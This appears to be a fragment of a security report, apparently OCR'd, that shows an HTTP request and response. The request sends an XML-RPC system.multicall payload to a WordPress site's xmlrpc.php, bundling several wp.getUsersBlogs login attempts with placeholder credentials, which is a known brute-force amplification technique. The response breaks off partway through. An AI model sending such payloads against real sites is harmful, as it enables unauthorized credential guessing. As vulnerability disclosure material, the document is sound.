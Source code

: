 ### Post Request:
```
POST /xmlrpc.php HTTP/1.1
Host: sifchain.finance
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: __cfduid=dcb7a4e2b0f6a7042e39b0bd33aa4128a1617428272
Upgrade-Insecure-Requests: 1
Content-Length: 1592


<?xml version="1.0"?>
<methodCall><methodName>system.multicall</methodName><params><param><value><array><data>
<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>
<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>
<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>
<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>
</data></array></value></param></params></methodCall>
```
### Response:
```
HTTP/1.1 200 OK
Date: Sat, 03 Apr 2021 09:47:13 GMT
Content-Type: text/xml; charset=UTF-8
Connection: close
Strict-Transport-Security: max-age=15552000; includeSubDomains
Vary: Accept-Encoding
X-hacker: If you're reading this, you should visit automattic.com/jobs and apply to join the fun, mention this header.
Host-Header: WordPress.com
X-XMLRPC-Error-Code: 403
X-ac: 2.hhn _atomic_ams
CF-Cache-Status: DYNAMIC
cf-request-id: 0938ba358200004e9daebe8000000001
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 63a15fcf3b654e9d-FRA
Content-Length: 1043


<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>faultCode</name><value><int>403</int></value></member>
```